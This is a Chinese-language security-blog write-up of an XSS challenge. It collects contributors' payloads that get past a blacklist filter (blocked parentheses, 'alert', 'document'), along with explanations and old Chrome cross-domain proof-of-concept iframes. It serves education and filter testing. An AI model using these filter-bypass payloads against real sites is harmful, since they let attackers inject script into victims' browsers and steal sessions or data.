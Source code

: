 # XSS 挑战第一期 Writeup

2014/01/25 20:44 | [mramydnei](http://drops.wooyun.org/author/mramydnei "由 mramydnei 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 起因

* * *

这期 XSS 挑战的起因是在阅读“Modern Web Application Firewalls Fingerprinting and Bypassing XSS Filters”过后,在其中发现了一个很有趣的话题。那就是在圆括号被过滤的情况下,如何去执行 javascript。在文中笔者给出来了这样的解决方案:

```
<a onmouseover="javascript:window.onerror=alert;throw 1>

```

这是一个通过抛出异常的方式来执行 alert()的方案。那么,还有没有别的办法可以让我们在没有圆括号的情况下执行 Javascript 呢?众神们经常说,没有具体环境的讨论是没有意义的。所以我就花了一点时间,编写了一个基于黑名单的 XSS 防御代码。也就有了我们这次的挑战。

## 0x01 设定

* * *

为了增加一点挑战的难度,根据一些较常见的 XSS 防御代码,对本次挑战进行了下列设定:

过滤:

```
(,),&,\,<,>,',%28,%29,空格+on,alert,data,src,eval,unescape
innerHTML,document,appendChild,createElement,write,String,setTimeout 
```

当然,为了保证更多人可以参与进来,我并没有对最前面给出的答案进行过滤。

## 0x02 结果

* * *

![2014012516263844018_png.jpg](img/img1_u52_jpg.jpg)

在挑战开始不到三个小时的时间里,gainover 拿下了这次挑战的 First Blood。

```
"onblur=a="%2",location="javascript:aler"+"t"+a+"81"+a+"9 
```

巧妙的使用定义变量的方式,重新拆装了 URL 编码分别为:%28 和%29 的左右圆括号,进而绕过了我们的限制。随后又放弃了定义变量的方式,而直接选择了通过连接字符串的方式 来缩减 payload 的长度。

```
"onblur=location="javascript:aler"+"t%2"+"81%2"+"9 
```

紧随其后,又有第二位挑战成功者 px1624,使用了和 gainonver 类似的方式,绕过了我们的过滤规则。当然,从上面的例子当中我们不难看出,此处的 href 是可以省略来简短长度的。

```
"onblur=location.href="JAvascript:ale"+"rt%2"+"81%2"+"9 
```

之后我们又从 gainver 收到了另一种绕过方式。

```
"onblur=top.onerror=top["ale"+"rt"];throw"1 
```

看上去和我们预留的答案大相径庭,但是也有它有趣的一部分。因为提交者在这里并没有使用较长的 window 而是使用了 top,当然作为其它选项也可以使用 parent 或 self。但是很明显 top 是最短的。如果不考虑触发难易性,也许我们可以把第一个 onblur 换成 oncut,把第二个 onerror 换成 onblur 来进一步节约两个字节。(当然,我并不认为在任何情况下,短的就是好的。)在 Chrome 下先在 input 里面按一次 ctrl+x,在通过点击地址栏或其它 tab 即可触发。

正在思考这个 top 的问题时,gainover 又寄来了一种更有趣的绕过方式。

```
"onblur=outerHTML=URL//#<img/src=1 onerror=alert(1)> 
```

可能有些人看完之后会觉得是不是变长了呢?实际上#后面的部分是不会被算在 QueryString 里面的。所以这里的实际长度只有 23。提交者巧妙的使用 outerHTML 的方式将整个 URL 都写入到了 DOM。但是在这里不得不提的是,浏览器差异问题。虽然在 Internet Explorer(IE8 下测试)和 Chrome(最新版本)当中,这种方法都可以直接把 URL 写到 DOM 中,但是 Firefox 会将 URL 编码过的内容写入到 DOM 中,导致无法完成 HTML 注入。所以在实际的操作过程中,如果条件允许的话,可能需要我们调用一些可以对 URL 进行解码的 JS 函数,先对 URL 进行一次解码再写入到 DOM 中,进而提高 payload 的通用性。

随后 gainover 又再一次通过空格来代替注释符(//),为自己赢得了更短的代码。

```
"onblur=outerHTML=URL #<img/src=1 onerror=alert(1)> 
```

来自 fangfei yang 的答案:

```
"oncut=top.onerror%3Dtop["al"+"ert"];throw"1 
```

来自 Chu 的答案:

```
<iframe src="http://xss.z7ys.com/?xss="onblur="location=window.name&submit=搜索" name="javascript:alert(1)"></iframe>

```

这位挑战者通过 window.name 实现了 iframe 的跨域,并完成了挑战。类似的方法还有 URL.hash window.postMessage 等等。在后续出来类似的答案时将不在重复写 iframe 的部分。

来自 Dun 比较有趣的答案: ￼￼

```
"onfocus=new%A1%A1window["al"+"ert"] 
```

在这里出现了一个小插曲,也是我的一个失误。因为两台服务器当中一台使用了 utf-8 编码,而另外一台又使用了 GB2312 编码。这位挑战者就在编码为 GB2312 的页面用了全角空 格(%A1%A1)。当然作为这个的替代品,还有%0B%0B。

之后 Dun 又使用了 Chrome 上一个版本的跨域漏洞,再次缩短了自己的 payload 长度。(因为 chrome 跨域漏洞的细节在很多地方都可以找到,我就不在这里造轮子了。)下面是他的 POC:

```
<script> var dd=false; document.domain=""; </script>
<iframe id="xss"src="//xss.z7ys.com./?xss=%22onblur%3Ddomain%3D%22%22+&submit=%CB%D1%CB%F7"onload="dd=true;"width="100%"height="100%"onmouseover="xssalert();"></iframe>
<script>
function xssalert(){
if(dd){
var xssiframe=document.getElementById("xss").contentWindow;
xssiframe.document.write("<script>alert(1)<\/script>");
}};
</script>

```

SqlCode 的答案:

```
"oncut=_=window;_.onerror=_["al"+"ert"];throw[1] 
```

Laix 的答案:

```
"oncut=location="javascript:aler"+"t%"+"281%"+"29 
```

Galaxy 的答案:

```
"onblur=javascript:window.onblur=al%00ert;throw"1 
```

该挑战者使用绕过 IE8/IE9 filter 的一个技巧(%00),完成了挑战。

e3rp4y 的答案:

```
"onfocus=window.onblur=top["aler"%2b"t"];throw"1 
```

来自 0x00 有趣的答案:

```
()&xss="onclick=a=location.search;location.href="javascript:a"+"lert"+a[1]+a[2]// 
```

把()作为参数放在问号的后面再用 location.search 调用了出来。

```
"onclick=a=location;b=a.hash;a.href="javascript:a"+"lert"+b[1]+b[2]//

"onclick=a=location;a.href="javascript:/*"+a.hash//#*/alert()

"onclick="location.href=window.name 
```

来自 litdg 的答案:

```
"/onblur=window.onerror=window["aler"+"t"];throw+1// 
```

来自过客的答案:

```
"onclick="location=top.a.name 
```

最后附上本次挑战的第一名获得者/fd 的一些答案:

```
<iframe name="javascript:alert(1)" src=//133.52.240.75/index.php?xss="autofocus/onfocus="location=self.name></iframe> 
```

通过 iframe 的 self.name 实现了跨域。

```
<iframe height=500 src=//xss.z7ys.com/index.php?xss=%22ondrop%3Ddomain%3D%22com></iframe>
<script>
 document.domain = 'com';
 setInterval(function() {
  frames[0].alert && frames[0].alert(1);
 },100)
</script>

```

![2014012516555130399_png.jpg](img/img2_u40_jpg.jpg)

chrome 跨域漏洞+拖拽劫持(只附上了重要部分代码,效果见上图)。一个很用心的 POC。当我们试图把硬币投入下面的黑框时触发。

```
<iframe height=500 src=//xss.z7ys.com./index.php?xss=%22oncut%3Ddomain%3D%22></iframe>
<script>
 document.domain = '';
 setInterval(function() {
  frames[0].alert && frames[0].alert(1);
 },100)
</script>

```

最后用旧版 chrome 的跨域漏洞(测试于 Chromium 31.0.1650.8)以 15 个字符的成绩终结了比赛。

## 0x03 写在最后

* * *

因为个人经验和知识储备的不足,可能在挑战的设定和评判标准上面没能做的很完善。而且整个挑战也似乎从如何绕过圆括号的限制慢慢的演变成了 The short talk of XSS。也许有人会觉得这是造轮子吧。但是我相信在参与的过程当中,大家也和我一样或多或少都学到了一些什么。其实,在编写这篇文章的同时,我和我的小伙伴们(Laix,烟花兔子,Line)花费心思又搞了一个自认为比较有趣的 XSS 挑战。暂时就将它称作为 XSS 挑战第二期吧。希望到时候大家也能来玩玩!最后,谢谢/fd,LinE,瞌睡龙等人的乌云币赞助。

提供该程序 PHP 源代码供各位下载，自己搭建测试：[index.php.zip](http://static.wooyun.org/20141017/2014101713115718908.zip)

版权声明：未经授权禁止转载 [mramydnei](http://drops.wooyun.org/author/mramydnei "由 mramydnei 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Bypass xss 过滤的测试方法](http://drops.wooyun.org/tips/845)
*   [Bypass IE XSS Filter](http://drops.wooyun.org/tips/159)
*   [wechall mysql 关卡题解](http://drops.wooyun.org/papers/1321)
*   [Short XSS](http://drops.wooyun.org/papers/512)
*   [Zabbix SQL Injection/RCE – CVE-2013-5743](http://drops.wooyun.org/papers/680)
*   [Hacking weblogic](http://drops.wooyun.org/tips/402)